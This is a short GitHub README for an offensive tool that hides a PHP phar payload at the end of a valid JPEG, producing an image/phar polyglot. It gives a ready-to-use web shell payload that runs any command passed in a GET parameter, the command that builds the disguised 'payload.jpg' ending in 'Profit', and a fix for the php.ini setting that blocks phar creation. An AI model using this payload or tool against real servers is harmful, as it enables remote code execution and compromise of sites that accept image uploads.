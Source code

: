 # JPEG PHAR Fusion

![Very cool picture](https://github.com/Sarapuce/jpeg-phar-fusion/blob/main/fusion.jpeg)

This is a simple tool to add a phar payload at the end of a valid jpeg image.

## Requierments
- Python 3
- Php (Tested with php 8)

## Usage
1. Clone the repo

`git clone https://github.com/Sarapuce/jpeg-phar-fusion.git`

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>'`

4. The file is in `payload.jpg`

5. Profit


## It doen't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini

To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`